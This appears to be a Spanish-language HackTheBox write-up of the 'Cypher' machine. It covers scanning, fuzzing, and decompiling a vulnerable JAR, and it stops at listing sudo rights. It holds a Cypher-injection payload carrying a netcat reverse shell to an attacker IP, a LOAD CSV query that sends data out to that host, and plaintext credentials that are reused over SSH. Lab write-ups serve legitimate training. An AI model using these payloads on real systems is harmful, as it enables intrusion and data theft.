





>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Cypher es una maquina Linux de la plataforma de HackTheBox de dificultad media , en la cual se tocan algunos temas interesantes, desde inyecciones en bases de datos de neo4j para provocar una ejecucion remota de codigo, hasta una escalada la cual muestra un abuso de sudoers interesante. Una buena maquina si recien empiezas y quieres tener tus habilidades mas solidas en hacking web y privesc en linux. 

A la fecha de este writeup, esta maquina aun esta **Activa** en HackTheBox.

## Nmap scan

Iniciamos escaneando el servidor con el siguiente comando de nmap:

```bash
❯ nmap -A -sV --min-rate 5000 -T5 -p- 10.10.11.57 -vvv --open -oN scan.txt -Pn
```

El cual nos devuelve la siguiente informacion:

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-22 18:12 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
Initiating Connect Scan at 18:12
Scanning cypher.htb (10.10.11.57) [65535 ports]
Discovered open port 80/tcp on 10.10.11.57
Discovered open port 22/tcp on 10.10.11.57
Completed Connect Scan at 18:12, 14.20s elapsed (65535 total ports)
Initiating Service scan at 18:12
Scanning 2 services on cypher.htb (10.10.11.57)
Completed Service scan at 18:12, 6.16s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.57.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 2.24s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.01s elapsed
Nmap scan report for cypher.htb (10.10.11.57)
Host is up, received user-set (0.072s latency).
Scanned at 2025-07-22 18:12:02 AST for 23s
Not shown: 63918 closed tcp ports (conn-refused), 1615 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: GRAPH ASM
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:12
Completed NSE at 18:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.25 seconds
```

Nos da de resultado que existen dos puertos habilitados, los cuales son el `80 (HTTP)`, y el `22 (SSH)` (Algo que se me olvido mencionar, y es que debemos de agregar el dominio `cypher.htb` a nuestro `/etc/hosts` para que resuelva el dominio, por eso en mi escaneo aparece esto.)

## Web analysis

Entrando en la web vemos lo siguiente:



Parece una web comun y corriente, si ves los demas, no hay nada interesante, mas que informacion acerca de la pagina. Y al entrar al login vemos esto que posiblemente sea interesante:



Es un login aparentemente comun. Pero algo que nunca debemos de dejar de pasar por alto (Y lo muestran en la academia de HTB en el path de la certificacion CBBH) es revisar el codigo fuente de la pagina, esto lo podemos hacer mejor con un curl (Combeniente mas para redactar en  mi caso :P)

```html
❯ curl http://cypher.htb/login
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <title>Login</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link type="text/css" rel="stylesheet" href="/bootstrap.min.css">
  <script src="jquery-3.6.1.min.js"></script>
  <script src="bootstrap.bundle.min.js"></script>
  <script src="bootstrap-notify.min.js"></script>
  <style>
    :root {
      --warning: #ff6400;
    }

    .btn-warning {
      background-color: var(--warning);
    }

    div.alert {
      background-color: rgba(255, 255, 255, 0.1);
      color: rgba(255, 50, 50);
    }
  </style>
</head>

<body>

  <nav class="navbar navbar-dark navbar-expand-lg bg-dark">
    <div class="container-fluid">
      
      <a class="navbar-brand" href="#">GRAPH ASM</a>
      <button class="navbar-toggler" type="button" data-bs-toggle="collapse" data-bs-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
        <span class="navbar-toggler-icon"></span>
      </button>
      <div class="collapse navbar-collapse" id="navbarSupportedContent">
        <ul class="navbar-nav me-auto mb-2 mb-lg-0">
          <li class="nav-item">
            <a class="nav-link" aria-current="page" href="/">Home</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="/about">About</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="/login">Login</a>
          </li>
        </ul>
      </div>
    </div>
  </nav>

  <div class="container">
    <div class="row justify-content-center mt-5">
      <div class="col-md-6">
        <h3 class="card-title text-center mb-4">Sign In</h3>
        <form action="/api/auth" method="POST">
          <!-- Email input -->
          <div class="form-floating mb-3">
            <input name="username" type="text" id="usernamefield" class="form-control" placeholder="Username">
            <label for="usernamefield">Username</label>
          </div>

          <!-- Password input -->
          <div class="form-floating mb-3">
            <input name="password" type="password" id="passwordfield" class="form-control" placeholder="Password">
            <label for="passwordfield">Password</label>
          </div>

          <!-- Submit button -->
          <div class="d-grid">
            <button type="submit" id="loginsubmit" class="btn btn-warning btn-lg">Sign in</button>
          </div>
        </form>
      </div>
    </div>
  </div>

  <script>
    notify = function (message) {
      $.notify({
        message: message
      }, {
        type: 'danger',
        delay: 2,
        allow_dismiss: false
      });
    }
  </script>

  <script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }

    $("form").keypress(function (e) {
      if (e.keyCode == 13) {
        doLogin(e);
      }
    })

    $("#loginsubmit").click(doLogin);
  </script>

</body>

</html>
```

Esto lo hacemos porque en algunas aplicaciones a veces contienen comentarios que pueden llegar a comprometer el sitio (Ejemplo credenciales, configuraciones, etc. Aunque raro de ver, si puede pasar).

No vemos nada pero aun nos falta interactuar con el login, probemos algo simple, inyección, aunque no sabemos que base de datos opera, pero nunca esta de mas ver y probar.

Al ingresar una simple `'`, vemos que el sitio provoca la siguiente respuesta:



Nos confirma que la consulta se esta rompiendo, y que la base de datos es `neo4j` porque en algunos detalles de el error lo dice.

Ahora no es que podamos hacer mucho con esto ahora mismo si no disponemos de una funcion que haya sido implementada en la DB de neo4j que podamos abusar. Por si no se entendio lo que dije, basicamente no disponemos de algo potencial con que usar esta inyeccion que encontramos.

Pero esto lo anotamos como vector eh. 

### Fuzzing Website

Algo que podriamos hacer seria hacer fuzzing dentro de la web, para que?

Pues para ver mas directorios y posibles archivos ocultos. Usaremos la herramienta `dirsearch`, la cual es tan facil de instalar en Linux con el siguiente comando:

```bash

(Kali,Debian,etc)

sudo apt install dirsearch

(Arch y derivados)

sudo pacman -S dirsearch
```

No pongo para fedora porque pues no se cual es, pero en caso de, tambien esta `ffuf`, `wfuzz` y muchas otras...

Ejecutando el comando nos da lo siguiente:

```bash
❯ dirsearch -u http://cypher.htb

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/unknown/Documents/Ctfs/htb/labs/cypher/reports/http_cypher.htb/_25-07-22_20-57-00.txt

Target: http://cypher.htb/

[20:57:00] Starting: 
[20:57:10] 200 -    5KB - /about
[20:57:10] 200 -    5KB - /about.html
[20:57:19] 307 -    0B  - /api  ->  /api/docs
[20:57:19] 404 -   22B  - /api-doc
[20:57:19] 404 -   22B  - /api.log
[20:57:19] 404 -   22B  - /api-docs
[20:57:19] 404 -   22B  - /api.py
[20:57:19] 307 -    0B  - /api/  ->  http://cypher.htb/api/api
[20:57:19] 404 -   22B  - /api/_swagger_/
[20:57:19] 404 -   22B  - /api/__swagger__/
[20:57:19] 404 -   22B  - /api/2/issue/createmeta
[20:57:19] 404 -   22B  - /api/2/explore/
[20:57:19] 404 -   22B  - /api.php
[20:57:19] 404 -   22B  - /api/api
[20:57:19] 404 -   22B  - /api/apidocs
[20:57:19] 404 -   22B  - /api/api-docs
[20:57:19] 404 -   22B  - /api/apidocs/swagger.json
[20:57:19] 404 -   22B  - /api/application.wadl
[20:57:19] 404 -   22B  - /api/batch
[20:57:19] 404 -   22B  - /api/cask/graphql
[20:57:19] 404 -   22B  - /api/config
[20:57:19] 404 -   22B  - /api/docs
[20:57:19] 404 -   22B  - /api/error_log
[20:57:19] 404 -   22B  - /api/docs/
[20:57:19] 404 -   22B  - /api/jsonws
[20:57:19] 404 -   22B  - /api/jsonws/invoke
[20:57:19] 404 -   22B  - /api/login.json
[20:57:19] 404 -   22B  - /api/package_search/v4/documentation
[20:57:19] 404 -   22B  - /api/profile
[20:57:19] 404 -   22B  - /api/proxy
[20:57:19] 404 -   22B  - /api/snapshots
[20:57:19] 404 -   22B  - /api/swagger
[20:57:19] 404 -   22B  - /api/swagger.json
[20:57:19] 404 -   22B  - /api/spec/swagger.json
[20:57:19] 404 -   22B  - /api/swagger.yaml
[20:57:19] 404 -   22B  - /api/swagger.yml
[20:57:19] 404 -   22B  - /api/swagger/swagger
[20:57:19] 404 -   22B  - /api/swagger/ui/index
[20:57:19] 404 -   22B  - /api/v1
[20:57:19] 404 -   22B  - /api/timelion/run
[20:57:19] 404 -   22B  - /api/v1/
[20:57:20] 404 -   22B  - /api/v1/swagger.json
[20:57:20] 404 -   22B  - /api/v1/swagger.yaml
[20:57:20] 404 -   22B  - /api/v2
[20:57:20] 404 -   22B  - /api/v2/
[20:57:20] 404 -   22B  - /api/v2/helpdesk/discover
[20:57:20] 404 -   22B  - /api/v2/swagger.json
[20:57:20] 404 -   22B  - /api/v2/swagger.yaml
[20:57:20] 404 -   22B  - /api/v3
[20:57:20] 404 -   22B  - /api/v4
[20:57:20] 404 -   22B  - /api/vendor/phpunit/phpunit/phpunit
[20:57:20] 404 -   22B  - /api/version
[20:57:20] 404 -   22B  - /api/whoami
[20:57:20] 404 -   22B  - /apibuild.pyc
[20:57:20] 404 -   22B  - /apidoc
[20:57:20] 404 -   22B  - /apidocs
[20:57:20] 404 -   22B  - /apis
[20:57:20] 404 -   22B  - /apiserver-aggregator.cert
[20:57:20] 404 -   22B  - /apiserver-client.crt
[20:57:20] 404 -   22B  - /apiserver-key.pem
[20:57:20] 404 -   22B  - /apiserver-aggregator-ca.cert
[20:57:20] 404 -   22B  - /apiserver-aggregator.key
[20:57:27] 307 -    0B  - /demo  ->  /login
[20:57:27] 404 -   22B  - /demo.aspx
[20:57:27] 404 -   22B  - /demo.js
[20:57:27] 307 -    0B  - /demo/  ->  http://cypher.htb/api/demo
[20:57:27] 404 -   22B  - /demo/ojspext/events/globals.jsa
[20:57:27] 404 -   22B  - /demo.jsp
[20:57:27] 404 -   22B  - /demo.php
[20:57:27] 404 -   22B  - /demo/sql/index.jsp
[20:57:27] 404 -   22B  - /demoadmin
[20:57:27] 404 -   22B  - /demos/
[20:57:45] 200 -    4KB - /login.html
[20:57:45] 200 -    4KB - /login
[20:58:06] 301 -  178B  - /testing  ->  http://cypher.htb/testing/

Task Completed
```

Vemos un directorio expuesto llamado testing. Entrando a este directorio vemos lo siguiente a continuacion:



Y lo descargamos con `wget` de la siguiente forma:

```bash
❯ wget -O snapshot.jar http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
--2025-07-22 21:09:09--  http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
Resolving cypher.htb (cypher.htb)... 10.10.11.57
Connecting to cypher.htb (cypher.htb)|10.10.11.57|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6556 (6.4K) [application/java-archive]
Saving to: ‘snapshot.jar’

snapshot.jar                           100%[===========================================================================>]   6.40K  --.-KB/s    in 0s      

2025-07-22 21:09:09 (22.0 MB/s) - ‘snapshot.jar’ saved [6556/6556]
```

## Analyzing JAR Code

Bien, ahora que tenemos el archivo descargado, vemos que parece ser java. Por lo que en mi caso (Teniendolo instalado) lo ejecutare abriendo la aplicacion de `JD-Gui` que por lo general viene instalada en Kali.

Y abriendo el archivo vemos lo siguiente:



Esto en resumen es el codigo de todo el sitio, y leyendo, nos damos cuenta de una variable custom la cual no esta correctamente sanitizada y por lo tanto, podemos aprovecharnos para obtener una reverse shell por lo que se conoce como `"Cypher Injection"`. En este [blog](https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8) se explica que es, detectar, y como mas o menos explotar.

La linea de la que hablo es la siguiente la cual dejare en bloque de codigo:

```java
public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))  
      url = "https://" + url;   
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };  
    System.out.println("Command: " + Arrays.toString((Object[])command));  
    Process process = Runtime.getRuntime().exec(command);
<SNIP>
```

Teniendo esto en cuenta, lo mejor seria hacerlo a traves de Burp Suite para confirmar que efectivamente tenemos inyeccion de cypher:

```java
HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 23 Jul 2025 02:43:03 GMT
Content-Length: 3258
Connection: keep-alive

Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/app/app.py", line 63, in <listcomp>
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 378, in __iter__
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.ClientError: {code: Neo.ClientError.Statement.ExternalResourceFailed} {message: Invalid URL 'http://10.10.15.18/?version=5.24.1&name=Neo4j Kernel&edition=community': Illegal character in query at index 45: http://10.10.15.18/?version=5.24.1&name=Neo4j Kernel&edition=community ()}

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/app/app.py", line 165, in login
    creds_valid = verify_creds(username, password)
  File "/app/app.py", line 151, in verify_creds
    raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.15.18/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //' return h.value as hash: Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/app/app.py", line 63, in <listcomp>
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 378, in __iter__
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.ClientError: {code: Neo.ClientError.Statement.ExternalResourceFailed} {message: Invalid URL 'http://10.10.15.18/?version=5.24.1&name=Neo4j Kernel&edition=community': Illegal character in query at index 45: http://10.10.15.18/?version=5.24.1&name=Neo4j Kernel&edition=community ()}


```

## Reverse Shell via Cypher Injection

Y si nos damos cuenta, justo abajo nos muestra la version de neo4j y todo. El problema es que por alguna razon nunca me llego la peticion al servidor que me habia montado pero anyways. A partir de esto, podemos ahora crear un payload personalizado el cual quedaria algo asi (Hasta chatgpt es capaz de hacerlo):

```javascript
{"username":"' OR 1=1 WITH 1 as a CALL custom.getUrlStatusCode('http://10.10.15.18/; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.18 4444 >/tmp/f') YIELD statusCode RETURN 0 as _0 //","password":"afa"}
```

Y si nos hemos puesto en escucha recibimos la siguiente conexion:

```bash
❯ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.57 58680
bash: cannot set terminal process group (1441): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$
```

Tenemos shell :D

Y revisando los directorios vemos que **RARAMENTE** tenemos acceso de lectura al directorio del usuario `graphasm`, y revisandola vemos lo siguiente:

```bash
neo4j@cypher:/home/graphasm$ ls -la
ls -la
total 48
drwxr-xr-x 5 graphasm graphasm 4096 Jul 22 17:36 .
drwxr-xr-x 3 root     root     4096 Oct  8  2024 ..
lrwxrwxrwx 1 root     root        9 Oct  8  2024 .bash_history -> /dev/null
-rw-r--r-- 1 graphasm graphasm  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 graphasm graphasm 3771 Mar 31  2024 .bashrc
-rw-r--r-- 1 graphasm graphasm  156 Feb 14 12:35 bbot_preset.yml
drwx------ 2 graphasm graphasm 4096 Oct  8  2024 .cache
drwxrwxr-x 3 graphasm graphasm 4096 Jul 22 17:36 .local
-rw-r--r-- 1 graphasm graphasm  807 Mar 31  2024 .profile
drwx------ 2 graphasm graphasm 4096 Oct  8  2024 .ssh
-rw-r----- 1 root     graphasm   33 Jul 22 10:04 user.txt
neo4j@cypher:/home/graphasm$ 
```

## Access as graphasm

Aunque tenemos la flag de user no podemos leerla, y viendo el otro archivo vemos lo siguiente:

```bash
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

Vemos unas credenciales en texto claro. Si intentamos reutilizarlas nos da lo siguiente:

```bash
❯ ssh graphasm@10.10.11.57
graphasm@10.10.11.57's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed Jul 23 02:56:18 AM UTC 2025

  System load:  0.0               Processes:             245
  Usage of /:   70.5% of 8.50GB   Users logged in:       0
  Memory usage: 31%               IPv4 address for eth0: 10.10.11.57
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

184 updates can be applied immediately.
118 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jul 23 02:56:19 2025 from 10.10.15.18
graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
graphasm@cypher:~$ cat user.txt
9b15f30e6b736*******************
graphasm@cypher:~$ 
```

Y en efecto. Las claves son reutilizables y nos da la flag de `user.txt` :)

## PrivEsc via BBOT

Ahora es el momento de la escalada. Si enumeramos con `sudo -l` los permisos que tenemos nos da lo siguiente:

```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
graphasm@cypher:~$ 
```

